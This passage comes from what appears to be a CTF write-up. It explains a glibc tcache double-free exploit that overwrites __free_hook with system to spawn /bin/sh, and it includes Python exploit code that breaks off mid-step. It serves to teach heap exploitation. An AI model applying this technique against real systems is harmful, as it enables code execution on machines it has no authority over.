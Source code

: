 ### Exploiting the Tcache

Ok, we have all these leaks, but how do we get code execution? Our goal was to overwrite the `__free_hook` function pointer located in the libc, which, if not null, is called whenever free is called.

If we can somehow make it point to `system`, we can then do the following:

1. Add a node with value `"/bin/sh\x00"` (will be the root of the tree)
2. Add a node with value `"/bin/sh\x00"` (will fail and be freed)

This last step will make `sp_add` fail, because no two nodes can have the same value. This causes a call to `free(node)` and since we overwrote the `__free_hook` pointer with `system`, it will also call `system("/bin/sh\x00")`.

So:
1. We can create nodes of size 72 and control their `node->node_val` and `node->node_val_2`
2. We can delete (free) nodes which will end up on the [tcache](http://tukan.farm/2017/07/08/tcache/). The pointer to the `next` free chunk in the **tcache_entry** will be exactly in the same offset as our `node->node_val` field.

By exploiting the OOBR again we can cause a double free of a node by:
 - creating a node
 - deleting it
 - selecting it (with our OOBR), making it part of the tree again
 - deleting it the second time

We use this to corrupt `tcache_entry->next` and make malloc return an arbitrary pointer (in our case to `__free_hook`) as shown in the image below and commented on the exploit code.

---

![upload-image]({{ "/assets/img/splaid_birch/tcache_corruption.png"}})


---

This is the code we wrote to accomplish it:
```python
    m1_addr = heap + 14800
    idx_for_m1_addr = (0x16e0 / 8)
    idx_for_nulls = idx_for_m1_addr + 1

    # This node is used to keep the pointer to m1 and a pointer to a 'null' node (aka no parent, left or right)
    create_node(s, m1_addr, pointer_to_nulls)

    # Create m1, the node we will want to free twice
    m1 = create_node(s)

    # Free m1, the first time
    del_node(s, m1)

    # Select m1's addr and free it again
    select_node(s, idx_for_m1_addr)
    del_node(s, 0)

    # m2 will get the same addr as m1.
    # Corrupt: m1->next == `__free_hook`
    m2 = create_node(s, free_hook, 0)

    select_node(s, idx_for_nulls)
    m3 = create_node(s)

    # m4 will get the addr of `__free_hook`. Write `system` there!
    m4 = create_node(s, system, 0)

    # Creats a node pointing to "/bin/sh\x00"
```
